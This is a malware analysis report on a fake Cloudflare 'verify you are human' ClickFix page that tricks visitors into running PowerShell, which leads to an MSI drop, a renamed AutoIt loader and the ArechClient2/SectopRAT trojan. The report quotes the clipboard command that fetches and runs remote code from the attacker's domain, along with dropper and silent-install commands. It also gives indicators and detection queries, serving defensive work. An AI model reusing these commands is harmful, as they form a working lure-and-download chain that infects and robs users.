


# Fake Cloudflare "Verify You Are Human" ClickFix Page Delivers ArechClient2

**TL;DR:** A web page on `lambardianviews[.]com` imitates a Cloudflare "verify you are human" check and tells the visitor to press **Win+R, Ctrl+V, Enter**. The page has quietly copied a PowerShell command to the clipboard, disguised as a "Cloudflare security check (Ray ID: …)". Running it downloads and executes a one-line script that pulls an MSI, which drops a renamed copy of the legitimate **AutoIt3** interpreter and runs a malicious AutoIt script. ANY.RUN identifies the final payload as **ArechClient2** (also known as SectopRAT), a remote-access trojan and stealer, which opens a hidden headless Chrome and connects to a hard-coded C2 at `185.121.233[.]13`. The delivery domain and the C2 were both live during the 27 November 2026 run, and none of the dropped files is on VirusTotal.

> ⚠️ **No real Cloudflare, Google or Windows check ever asks you to press Win+R and paste something.** That is always malware (a "ClickFix" lure).

---

## Summary

| | |
|---|---|
| **Lure** | `lambardianviews[.]com` — fake Cloudflare "Additional verification required" page |
| **Technique** | ClickFix (clipboard → Win+R → PowerShell), MSI drop, AutoIt loader, DLL/payload unpacking |
| **First stage** | `hxxps://lambardianviews[.]com/s` — PowerShell script fetched by `Msxml2.XMLHTTP` and run with `IEX` |
| **Payload download** | `hxxps://lambardianviews[.]com/p1` — 1 MB MSI (`patch.msi`) |
| **Loader** | `Pave046.exe` — legitimate AutoIt3 interpreter (VirusTotal 1/68), renamed, runs `DepartManager.dat` |
| **Payload** | **ArechClient2 / SectopRAT** (ANY.RUN attribution): RAT + stealer |
| **C2** | `185.121.233[.]13:443` (VDSINA, NL) — direct IP, no DNS, VirusTotal 0/92 |
| **Persistence** | `DepartManager.vbs` and `DepartManager.bat` in the Startup folder |
| **Sandbox report** | [ANY.RUN task 6d6b001d](https://app.any.run/tasks/6d6b001d-784b-4c0f-8a36-110238174820) (Windows 10 x64, 2026-11-27, verdict: malicious) |

---

## Infection chain



*Infection chain with file hashes. `Pave046.exe` is the legitimate AutoIt3 interpreter (shown in gray); don't block it by hash. The malicious logic is the `DepartManager.dat` script it runs, shown as its own step.*

<details>
<summary>Text version of the chain</summary>

```
lambardianviews[.]com/                      fake Cloudflare "verify you are human" page
  └─ clipboard: powershell … Msxml2.XMLHTTP GET /s … IEX
       └─ Win+R  →  Ctrl+V  →  Enter        (victim pastes and runs it)
            └─ GET hxxps://lambardianviews[.]com/s        first-stage PowerShell (1 KB)
                 ├─ GET /p1                                payload, 1 MB MSI
                 ├─ %TEMP%\edgeupd.ps1                     dropper script
                 ├─ msiexec /i %TEMP%\patch.msi /qn        silent install
                 │    └─ %LOCALAPPDATA%\Rookie_Hover\
                 │         ├─ Pave046.exe                  renamed AutoIt3 interpreter
                 │         ├─ DepartManager.dat            malicious AutoIt script
                 │         └─ engine.data                  packed payload (assessed)
                 │              └─ Pave046.exe DepartManager.dat
                 │                   ├─ chrome.exe --headless --no-sandbox   (ArechClient2)
                 │                   │    └─ C2  185.121.233[.]13:443
                 │                   └─ Startup\DepartManager.vbs / .bat     persistence
                 └─ GET /callback.php                      204 — infection callback
```

</details>

---

### 1. The lure (ClickFix)

`lambardianviews[.]com` serves a page whose title is "Just a moment…", copying Cloudflare's interstitial. It then shows an **"Additional verification required"** panel with a fake Ray ID (`949b32c259dd18b0`) and step-by-step instructions:

> 1. Press & hold the Windows Key ⊞ + **R**.
> 2. In the verification window, press **Ctrl + V**.
> 3. Press **Enter** on your keyboard to finish.


*Figure 1: The ClickFix lure. The page has already copied a PowerShell command to the clipboard; the "Verification prompt" field shows it disguised as a "Cloudflare security check (Ray ID: 949b32c259dd18b0)". Win+R opens the Run box, Ctrl+V pastes the command, Enter runs it.*

ANY.RUN's network threat log flags the page with **"ET MALWARE Observed ClickFix Powershell Delivery Page Inbound"**.

### 2. The clipboard command

What the victim pastes into the Run box is:

```
powershell -wi mi "$x=New-Object -COM Msxml2.XMLHTTP;
  $x.open('GET','hxxps://lambardianviews[.]com/s',0); $x.send();
  .([scriptblock]::Create($x.responseText))"
```

`-wi mi` runs the window minimised. `Msxml2.XMLHTTP` fetches `/s` over HTTP and `[scriptblock]::Create(...)` runs the response straight in memory, so the first stage never touches disk. The run also contains a Base64 `-EncodedCommand` variant that wraps the same line through `cmd /s /c`, used to relaunch it hidden.

### 3. First stage and payload download

The `/s` script (1 KB) downloads the payload from **`/p1`** (1 MB) and writes a dropper, `%TEMP%\edgeupd.ps1` — named to look like an Edge update. That script runs:

```
powershell -nop -ep bypass -f %TEMP%\edgeupd.ps1
cmd /c msiexec /i %TEMP%\patch.msi /qn /norestart
```

`/qn /norestart` is a silent install with no window. A final `GET /callback.php` returns **204 No Content** — a beacon telling the server the infection succeeded.

Observed HTTP on `lambardianviews[.]com`:

| Request | Result | By | Role |
|---|---|---|---|
| `GET /` | 301 → 200 (20 KB) | msedge | ClickFix lure page |
| `GET /s` | 200 (1 KB) | powershell | First-stage script |
| `GET /p1` | 200 (1 MB) | powershell | Payload (MSI) |
| `GET /callback.php` | 204 | powershell | Infection callback |

### 4. The loader: renamed AutoIt3

`patch.msi` extracts to `%LOCALAPPDATA%\Rookie_Hover\` and launches:

```
cmd /c start Pave046.exe DepartManager.dat
```

`Pave046.exe` is **not** malware on its own — it is the legitimate **AutoIt3 interpreter**. VirusTotal lists it as `AutoIt v3 Script` (product name AutoIt v3, original name `AutoIt3.exe`), detected by only 1/68. The same file has been seen under many random names (`Forest095.exe`, `SceneUpdate.exe`, `TeachHelper.exe`, `ProgramDataRuntimePilotSettle079.exe`), so **the filename is a weak indicator** — the campaign renames the interpreter each time.

The malicious logic is in **`DepartManager.dat`**, the AutoIt script passed to it, which is not on VirusTotal. `engine.data` (also unknown to VirusTotal) is assessed to be the packed payload the script unpacks. The MSI also drops decoy developer files (Visual Studio DLLs, MinGW tools such as `llvm-nm.exe`) to look like genuine software.

### 5. The payload: ArechClient2 (SectopRAT)

ANY.RUN attributes the payload to **ArechClient2 / SectopRAT** (tracker tags: `arechclient2`, `rat`, `backdoor`, `stealer`), based on a YARA match in `Pave046.exe`'s memory. We did not independently reverse the payload.

A hallmark of ArechClient2 is seen here: `Pave046.exe` starts a **hidden headless Chrome**:

```
chrome.exe --headless --no-sandbox --disable-gpu --mute-audio
           --user-data-dir %TEMP%\vamaavdz.rgk
```

ArechClient2 drives this invisible browser to read cookies and session data and to carry out actions the victim cannot see. The sandbox did not capture a specific stolen-data file in this run — ANY.RUN's "Browser Data 1" entry is the visit to the lure page, not exfiltrated credentials.

### 6. Command and control

`Pave046.exe` connects directly to **`185.121.233[.]13:443`** with no DNS lookup — the C2 IP is hard-coded in the payload.

| Indicator | Detail |
|---|---|
| C2 | `185.121.233[.]13:443` (also 8080, 8787 open) |
| Host | VDSINA (Netherlands), `v942810.hosted-by-vdsina[.]com` |
| VirusTotal | **0/92**, one communicating file |

### 7. Persistence

The payload writes `DepartManager.vbs` and `DepartManager.bat` into the **Startup folder**
(`%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\`), which relaunch `Pave046.exe` at every logon.

---

## Status (28 November 2026)

| Component | Status |
|---|---|
| `lambardianviews[.]com` | **Live**, resolves to 5.181.156.138 (MivoCloud, Moldova) |
| First-stage / payload URLs (`/s`, `/p1`) | Served during the run |
| C2 `185.121.233[.]13` | **Live** (VDSINA) |

The domain was registered on **6 November 2026** (NiceNIC, Cloudflare nameservers STAN/TIA) and points straight at a MivoCloud server rather than through Cloudflare's proxy.

---

## Indicators of Compromise

### Network

| Indicator | Role |
|---|---|
| `lambardianviews[.]com` | ClickFix lure domain |
| `hxxps://lambardianviews[.]com/s` | First-stage PowerShell script |
| `hxxps://lambardianviews[.]com/p1` | Payload (MSI) download |
| `hxxps://lambardianviews[.]com/callback.php` | Infection callback (204) |
| `5.181.156[.]138` | Delivery server (MivoCloud, MD) |
| `185.121.233[.]13:443` | ArechClient2 C2 (VDSINA, NL) |

### Files

| File | Hash | Verdict |
|---|---|---|
| `patch.msi` (1 MB) | SHA-256 `89c28e7059e25d1e8cf5789d037f02e30da682ad7e7827482205353be39d2917` | Malicious (dropper); not on VirusTotal |
| `cab1.cab` | SHA-256 `9f14eaca921a75e44daeab2dcf7b9c3c82b3f2a20e66424b5c6992c6960ef75f` | MSI cabinet; not on VirusTotal |
| `DepartManager.dat` (28 KB) | MD5 `39593e5f17f12e398b39d768c374c277` | **Malicious** AutoIt script; not on VirusTotal |
| `engine.data` (452 KB) | MD5 `470d24b15aad15579430abcf3569a9e7` | Packed payload (assessed); not on VirusTotal |
| `Pave046.exe` (1 MB) | SHA-256 `5d69a932a077fee044b193c28e84564143f5c7e51079ab48e88fef74ab0b77b7`<br>MD5 `80cdd5f19d704a001589976bae277bab` | **Legitimate** AutoIt3 interpreter; abused as loader. Do not block by hash alone |

### Host

- `powershell.exe` launched by `explorer.exe` (Run box) with `Msxml2.XMLHTTP` + `IEX`
- `%TEMP%\edgeupd.ps1`, `%TEMP%\patch.msi`
- `%LOCALAPPDATA%\Rookie_Hover\Pave046.exe` (AutoIt3) running `DepartManager.dat`
- `chrome.exe --headless --no-sandbox` with a `%TEMP%` user-data-dir
- `DepartManager.vbs` / `DepartManager.bat` in the Startup folder

---

## Detection ideas

### ClickFix: PowerShell with a COM XMLHTTP download + IEX (KQL)

```kql
DeviceProcessEvents
| where Timestamp > ago(14d)
| where FileName in~ ("powershell.exe", "pwsh.exe")
| where ProcessCommandLine has "Msxml2.XMLHTTP"
     or (ProcessCommandLine has "scriptblock" and ProcessCommandLine has "responseText")
| where InitiatingProcessFileName in~ ("explorer.exe", "cmd.exe")
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine
```

### AutoIt3 running from a per-campaign folder in LocalAppData

```kql
DeviceProcessEvents
| where Timestamp > ago(14d)
| where ProcessVersionInfoProductName has "AutoIt" or ProcessVersionInfoOriginalFileName =~ "AutoIt3.exe"
| where FolderPath startswith @"C:\Users\" and FolderPath has @"\AppData\Local\"
| where FolderPath !has @"\Program Files"
| project Timestamp, DeviceName, FileName, FolderPath, ProcessCommandLine
```

### msiexec silent-installing an MSI from the Temp folder

```kql
DeviceProcessEvents
| where Timestamp > ago(14d)
| where FileName =~ "msiexec.exe"
| where ProcessCommandLine has_all ("/i", "/qn") and ProcessCommandLine has @"\AppData\Local\Temp\"
| project Timestamp, DeviceName, ProcessCommandLine, InitiatingProcessFileName
```

### Headless Chrome with a Temp user-data-dir (ArechClient2 hidden browser)

```kql
DeviceProcessEvents
| where Timestamp > ago(14d)
| where FileName =~ "chrome.exe"
| where ProcessCommandLine has "--headless" and ProcessCommandLine has "--no-sandbox"
| where ProcessCommandLine has @"\AppData\Local\Temp\"
| where InitiatingProcessFileName !in~ ("chrome.exe", "msedge.exe", "explorer.exe")
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine
```

### Startup-folder persistence (.vbs/.bat)

```kql
DeviceFileEvents
| where Timestamp > ago(14d)
| where ActionType == "FileCreated"
| where FolderPath has @"\Start Menu\Programs\Startup\"
| where FileName endswith ".vbs" or FileName endswith ".bat"
| project Timestamp, DeviceName, FileName, FolderPath, InitiatingProcessFileName
```

### DNS and web proxy

Alert on and block `lambardianviews[.]com`. Alert on any direct connection to `185.121.233[.]13`.
